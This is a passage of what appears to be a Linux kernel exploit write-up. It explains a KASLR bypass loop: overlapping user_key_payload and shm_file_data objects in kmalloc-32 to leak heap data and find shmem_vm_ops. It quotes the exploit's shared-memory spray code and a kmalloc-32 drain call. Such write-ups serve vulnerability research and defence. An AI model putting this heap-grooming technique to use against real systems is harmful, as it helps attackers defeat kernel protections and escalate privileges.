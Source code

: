 The KASLR bypass process is implemented inside a loop which do the following steps:
  1. Prepare for `struct shm_file_data` objects allocation.
  2. Drain kmalloc-32.
  3. Try to overlap `struct user_key_payload` object and `struct shm_file_data` object.
  4. Leak heap with `struct user_key_payload` object.
  5. Search for `shmem_vm_ops` address.
  6. Cleanup and retry in case of failure.
  7. Calculate kernel base in case of success.

### Step3.1: Prepare for `struct shm_file_data` allocation
- [exploit.c#L614](./exploit.c#L614):

```c
int *shmids = prepare_shm_file_data_alloc(256);
```

- [exploit.c#L400](./exploit.c#L400):

```c
int *prepare_shm_file_data_alloc(int n)
{
  int *shmids = malloc(n * sizeof(*shmids));
  if (!shmids) {
    perror("malloc");
    return NULL;
  }

  for (int i = 0; i < n; i++) {
    shmids[i] = shmget(IPC_PRIVATE, 4096, IPC_CREAT);
    if (shmids[i] < 0) {
      perror("shmget");
      for (int j = i - 1; j >= 0; j--)
        shmctl(shmids[j], IPC_RMID, NULL); 

      free(shmids);
      return NULL;
    }
  }

  return shmids;
}
```

- Each identifier stored in shmids will be used to allocate `struct shm_file_data` object in the future.

### Step3.2: Drain kmalloc-32
- [exploit.c#L620](./exploit.c#L620):

```c
if (!drain_kmalloc_32(512))
  return 0;
```
